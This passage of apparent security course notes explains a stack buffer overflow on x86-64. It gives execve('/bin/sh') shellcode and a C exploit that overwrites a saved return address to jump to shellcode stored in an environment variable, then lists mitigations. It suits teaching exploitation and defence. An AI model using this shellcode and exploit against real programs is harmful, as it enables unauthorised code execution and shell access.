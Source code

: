 This means that we can inject code into the address space and set the return address to the address of the injected shellcode.

```C
int shell() {
asm("\
needle: jmp gofar \n\
goback: pop %rdi \n\
 xor %rax, %rax \n\
 movb $0x3b, %al \n\
 xor %rsi, %rsi \n\
 xor %rdx, %rdx \n\
 syscall \n\
gofar: call goback \n\
.string \"/bin/sh\"\n\
");
}
```

`call` puts the return address to the stack and therefore the syscall uses the string argument.

**Exploit**:

```C
#define BUFSIZE 0x20
#define EGGLOC 0x7fffffffefd3
  int main(int argc, char* argv[]) {
  char shellcode[] = "EGG="
  "\xeb\x0e" // jump +0xe (+14)
  "\x5f" // pop %rdi
  "\x48\x31\xc0" // xor %rax, %rax
  "\xb0\x3b" // mov $0x3b, %al
  "\x48\x31\xf6" // xor %rsi, %rsi
  "\x48\x31\xd2" // xor %rdx, %rdx
  "\x0f\x05" // syscall
  "\xe8\xed\xff\xff\xff\x2f " // call 0xed (-19)
  "\x62\x69\x6e\x2f\x73\x68\x00\x5d "; // /bin/bash+\0
  char buf[256]; // buffer used for overflow
  for (int i = 0; i <BUFSIZE+sizeof(void*); buf[i++] = 'A'); // fill buffer + rbp
  char **buff = (char**)(&buf[BUFSIZE+sizeof(void*)]); // overwrite RIP
  *(buff++) = ( void*)EGGLOC;
  *buff = ( void*)0x0;
  char *args[3] = { "./stack", buf, NULL }; // execution environment
  char *envp[2] = { shellcode, NULL};
  execve("./stack", args, envp); // fire exploit!
  return 0;
}
```

#### Mitigations

This program violates:

- memory safety: stop memory corruption - safe C/C++ dialects (CCured, Cyclone), rewrite in safe lang
- Integrity: Enforce integrity of reads/writes
- Randomization: Randomize locations, code, data, or pointer values
- Flow integrity: Protect control transfers - data-flow integrity, control-flow integrity
